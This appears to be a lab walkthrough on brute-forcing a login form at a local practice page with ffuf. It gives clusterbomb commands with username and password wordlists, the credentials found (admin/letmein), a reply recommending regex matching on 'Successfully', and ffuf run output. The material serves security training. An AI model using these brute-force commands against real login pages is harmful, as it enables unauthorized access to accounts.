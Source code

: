    Now Lets Do this using FFUF Also
   copy the post request to a file called req.txt
   and now lets edit the bottom line of it according to the ffuf tool


`username=FUZZUSER&password=FUZZPASS`

now run the command after that BEFORE RUN IT RESET THE DB BY GOING TO THE PAGE /INIT.PHP
`ffuf -request req.txt -request-proto http -mode clusterbomb -w top username shortlist.txt:FUZZUSER -w 4pass.txt:FUZZPASS`
The one which is different from others
and do manually testing in burp to figure out which is correct 3378
```
[Status: 200, Size: 3378, Words: 1270, Lines: 68, Duration: 40ms]
    * FUZZPASS: letmein
    * FUZZUSER: admin

```
Hey!
I also recommend using -mr in your command as then you will be able to use regex and look for the exact response giving you a successful login.

Use the following command:
ffuf -request req.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER -w passwords.txt:FUZZPASS -mr "Successfully"

You are basically filtering out responses that have the word - Successfully in it. You can use other words like success too!
Refer to this thread
```python
┌──(cyber㉿kali)-[~]
└─$ ffuf -request req.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER -w 4pass.txt:FUZZPASS -mr "Successfully"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x03.php
 :: Wordlist         : FUZZUSER: /usr/share/seclists/Usernames/top-usernames-shortlist.txt
 :: Wordlist         : FUZZPASS: /home/cyber/4pass.txt
 :: Header           : Origin: http://localhost
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Referer: http://localhost/labs/a0x03.php
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Host: localhost
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: close
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Data             : username=FUZZUSER&password=FUZZPASS
 :: Follow redirects : false
```